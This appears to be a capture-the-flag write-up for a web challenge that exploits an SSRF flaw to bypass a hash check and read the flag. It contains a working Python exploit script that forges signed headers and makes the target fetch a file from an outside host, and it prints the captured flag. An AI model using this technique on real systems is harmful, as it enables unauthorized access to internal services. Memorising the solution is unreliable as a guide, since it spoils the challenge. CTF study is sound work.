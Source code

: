 - Scenario 2
1. Using the `ssrf` vulnerability, a request was sent to `/download` to create a random file.
2. Again, using the `ssrf` vulnerability, sending a request to `/rollback` to read the FLAG
3. In this case, the `self.dbHash != dbHash` syntax is bypassed by using the file name.
4. Finally, just read the `Lang` header.

- A note of caution
1. When creating a file, a request is sent using the `requests.get()` function, so when creating a file, a `URL` must be sent to create it.
2. The value of `dbHash` is parsed once more within the `RunRollbackDB()` function, and the value of `e.isalnum()` must be true.
3. When reading the flag, the value of the environment variable `ENV` should not be `local`, so port `5000` should be used instead of port `5050`.

```python
import hmac
import hashlib
import requests

url = 'http://35.200.63.50/apis/'

Key = hashlib.sha512(('ed05a1c7ff6428dcf8d50901b6e78ba3').encode('ascii')).hexdigest()
print('[+] Key  : ' + Key)

def sign(KEY):
    privateKey = b'let\'sbitcorinparty'
    EN = hmac.new( privateKey , KEY.encode('utf-8'), hashlib.sha512 )
    return EN.hexdigest()

def integrityStatus():
    headers = {'Host':'localhost:5000', 'Lang':'/integrityStatus'}
    res = requests.get(url+'coin', headers=headers)
    print('[+] headers in /apis/integreityStatus : ' + res.headers['lang'])

def download():
    headers = {'Host':'localhost:5000', 'Lang':'download?src=http://141.164.52.207/a123', 'Sign':sign('src=http://141.164.52.207/a123')}
    res = requests.get(url+'coin', headers=headers)
    print('[+] headers in /apis/download : ' + res.headers['lang'])

def rollback():
    headers = {'Host':'localhost:5000', 'Lang':'/rollback?dbhash=a123', 'Sign':sign('dbhash=a123'), 'Key':Key}
    res = requests.get(url+'coin', headers=headers)
    print('[+] headers in /apis/rollback : ' + res.headers['lang'])

if __name__ == '__main__':
    integrityStatus()
    download()
    rollback()
```

```txt
LINECTF{YOUNGCHAYOUNGCHABITCOINADAMYMONEYISBURNING}
```

---
